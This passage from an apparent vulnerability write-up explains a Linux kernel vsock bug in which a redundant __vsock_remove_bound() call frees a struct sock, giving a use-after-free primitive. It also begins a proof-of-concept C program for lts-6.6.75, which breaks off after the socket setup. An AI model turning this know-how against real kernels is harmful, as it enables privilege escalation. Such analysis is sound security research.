``` c
}

static void __vsock_remove_bound(struct vsock_sock *vsk)
{
    list_del_init(&vsk->bound_table); // [10]
    sock_put(&vsk->sk); // [11]
}
```

Later, `__vsock_bind_connectible()` is called again, and this time, it finds an available port and binds the vsock. However, since the vsock was already removed from the unbound table by the release handler, the function `__vsock_remove_bound()` [12] is redundantly called here to remove it again.

``` c
static int __vsock_bind_connectible(struct vsock_sock *vsk,
                    struct sockaddr_vm *addr)
{
    // [...]

    vsock_addr_init(&vsk->local_addr, new_addr.svm_cid, new_addr.svm_port);
    __vsock_remove_bound(vsk); // [12]
    __vsock_insert_bound(vsock_bound_sockets(&vsk->local_addr), vsk);

    return 0;
}
```

The linked list deletion [13] is not harmful, but the function call to `sock_put()` [14] decreases the refcount of the sk object (`struct sock`), which reaches zero after this call.

``` c
static void __vsock_remove_bound(struct vsock_sock *vsk)
{
    list_del_init(&vsk->bound_table); // [13]
    sock_put(&vsk->sk); // [14]
}
```

After that, we will obtain **a primitive of `struct sk` UAF**.

### 6.2. POC

The POC works on lts-6.6.75, which triggers a kernel warning.

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <signal.h>
#include <sys/socket.h>
#include <linux/vm_sockets.h>

#define MAX_PORT_RETRIES 24

int main() {
    int alen = sizeof(struct sockaddr_vm);
    int client_fd = socket(AF_VSOCK, SOCK_STREAM, 0);
    int server_fd = socket(AF_VSOCK, SOCK_STREAM, 0);
    struct sockaddr_vm server_addr = {
        .svm_family = AF_VSOCK,
        .svm_cid = VMADDR_CID_LOCAL,
        .svm_port = VMADDR_PORT_ANY,
    };

    // [0] get the value of `static port` in the `__vsock_bind_connectible()`
    bind(server_fd, (struct sockaddr*)&server_addr, sizeof(server_addr));
```